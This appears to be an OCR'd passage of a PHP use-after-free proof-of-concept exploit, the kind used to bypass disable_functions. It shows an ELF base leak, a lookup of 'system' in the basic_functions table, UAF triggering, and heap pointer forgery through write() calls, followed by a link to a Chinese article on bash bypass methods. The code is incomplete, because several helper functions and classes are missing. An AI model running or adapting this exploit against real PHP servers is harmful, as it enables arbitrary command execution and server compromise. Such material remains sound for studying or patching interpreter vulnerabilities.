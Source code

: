 ```php

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
```

[bash绕过方式]: https://blog.51cto.com/u_15127695/4278470	"bash绕过方式"